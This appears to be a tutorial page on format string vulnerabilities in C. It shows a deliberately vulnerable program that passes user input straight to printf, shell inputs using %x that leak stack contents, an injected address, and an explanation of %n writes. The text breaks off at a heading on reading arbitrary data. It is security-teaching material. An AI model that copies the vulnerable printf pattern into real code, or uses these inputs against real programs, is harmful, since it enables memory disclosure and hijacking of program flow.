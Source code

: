 # Format string vulnerability

A format string vulnerability is a vulnerability about using vulnerable functions of the printf family, which don't check the format string itself. With a proper format specifier, you can view arbitrary data within the program, overwrite it and even control the flow of the program.

## View vulnerability

Consider this program:
```C
#include <stdio.h>
#include <string.h>

// gcc format-string.c -o format-string -m32

int main(int argc, char *argv[]){
  char buff[200];
  strncpy(buff, argv[1], 200);
  printf(buff);
  return 0;
}
```

Input usual string:
```bash
$ ./format-string "My String"
My String
```

Input string with format specifier `x`, which will show you hex:
```bash
$ ./format-string AAAA%x
AAAAfff932ef
```

You'll get some strange input...

Try another one:
```bash
$ ./format-string AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffd972d4.c8.5665522b.0.0.0.ffd96424.0.41414141.252e7825
```

In this case, you got another artifact. Dots here is to simplify the view.

So, the artifact 41414141 is our string that we input at the beginning of the string. And this all is a stack. The program itself gives us the content of the stack.

```bash
$ ./format-string AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffe442cb.c8.565d922b.0.0.0.ffe43aa4.0.41414141.252e7825.78252e78.2e78252e.252e7825
```

The next stuff is a continuation of our string.

### What can we do with it?

We can specify at the beginning of our string some address.

```bash
$ ./format-string $(python -c 'print "\xef\xbe\xad\xde" + "%x." * 100')
ﾭ�ffbb11c5.c8.565ad22b.0.0.0.ffbb0d04.0.deadbeef.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.5d688c00.ffbb0c70.0.0.f7dcdee5.f7f9a000.f7f9a000.
```

You see the value `0xdeadbeef` in the output. With different specifiers, we can write to this address or read what in this address.

## Format string specifiers

1. %d - decimal(int) - value.
2. %u - unsigned decimal(unsigned int) - value.
3. %x - hexadecimal(unsigned int) - value.
4. %s - string((const) unsigned char *) - reference.
5. %n - number of bytes written so far(* int) - reference.
6. %p - show what the pointer contains - value.

### Try different specifiers

```C
#include <stdio.h>

// gcc specifiers.c -o specifiers -m32

int main(int argc, char *argv[]){
  int num = -824;
  printf("Signed int: %d\n", num);
  unsigned int num2 = 10000;
  printf("Unsigned int: %u\n", num2);
  printf("Hexadecimal: %x\n", num);
  int *p = &num2;
  printf("Pointer: %p\n", p);
  const char *s = "Some string";
  printf("String: %s\n", s);
  int *count = &num2;
  printf("Number of bytes written: %n\n", count);
  printf("%u\n", *count);
  return 0;
}
```

On the last one, it will write the number of bytes written at the address within count pointer or num2, so, then I wrote this value and it's 25 bytes, which you can determine in python interpreter:
```bash
>>> len('Number of bytes written: ')
25
```

## Read arbitrary data
